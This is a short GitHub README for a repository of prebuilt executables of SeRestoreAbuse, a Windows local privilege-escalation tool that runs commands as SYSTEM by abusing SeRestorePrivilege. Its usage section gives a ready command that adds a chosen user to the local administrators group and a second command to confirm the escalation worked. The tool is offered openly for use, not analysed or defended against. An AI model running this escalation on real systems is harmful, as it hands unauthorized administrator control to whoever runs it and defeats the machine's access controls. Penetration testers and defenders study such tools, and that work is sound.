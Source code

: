 # SeRestoreAbuse
SeRestoreAbuse Executes a command as SYSTEM when SeRestorePrivilege is assigned. In case it's disabled, the program will enable it for you.

Credit goes to xct <3. this is the main repo : https://github.com/xct/SeRestoreAbuse

This repo is just to have the prebuilt compiled exes to avoid manual compilation.

### Usage
```powershell
.\SeRestoreAbuse.exe "cmd /c net localgroup administrators <usernametobeaddedtoadministratorgrouphere> /add"
```
### Validate if it worked or not
```powershell
net users <username>
```
